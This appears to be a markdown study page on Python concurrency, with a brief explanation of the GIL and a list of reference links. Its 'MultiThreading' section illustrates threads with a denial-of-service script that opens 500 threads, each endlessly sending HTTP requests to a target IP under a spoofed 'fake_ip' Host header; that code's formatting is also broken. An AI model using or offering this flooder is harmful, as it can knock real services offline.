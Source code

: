 # Concurrency

## Global Interpreter Lock (GIL)

GIL is a mutex that protects access to Python objects, preventing multiple threads from executing Python bytecodes at once. This lock is necessary mainly because CPython's memory management is not thread-safe.

This essentially means that a process can run only one thread at a time. When a thread starts running, it acquires GIL and when it waits for I/O, it releases the GIL, so that other threads of that process can run.

Solution -

- Run multiple Python instances

## References

https://wiki.python.org/moin/GlobalInterpreterLock

https://pybay.com/site_media/slides/raymond2017-keynote/index.html

[Raymond Hettinger, Keynote on Concurrency, PyBay 2017](https://www.youtube.com/watch?v=9zinZmE3Ogk&index=2&list=WL&t=0s)

https://realpython.com/python-concurrency

https://www.toptal.com/python/beginners-guide-to-concurrency-and-parallelism-in-python

https://www.tutorialspoint.com/concurrency_in_python/index.htm

[**Tutorial: Santiago Basulto - Python Concurrency: from beginner to pro**](https://www.youtube.com/watch?v=18B1pznaU1o)

[Back to Basics: Concurrency](https://youtu.be/5pYKAoD3Apk) - C++

## MultiThreading

```python
import threading

import socket

target = '10.0.0.138'

port = 80

fake_ip = '182.21.20.32'

def attack():

while True:

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((target, port))

s.sendto(("GET /" + target + " HTTP/1.1rn").encode('ascii'), (target, port))

s.sendto(("Host: " + fake_ip + " rnrn").encode('ascii'), (target, port))

s.close()

for i in range(500):

thread = threading.Thread(target=attack)

thread.start()
```

https://bovage.hashnode.dev/what-exactly-is-multithreading
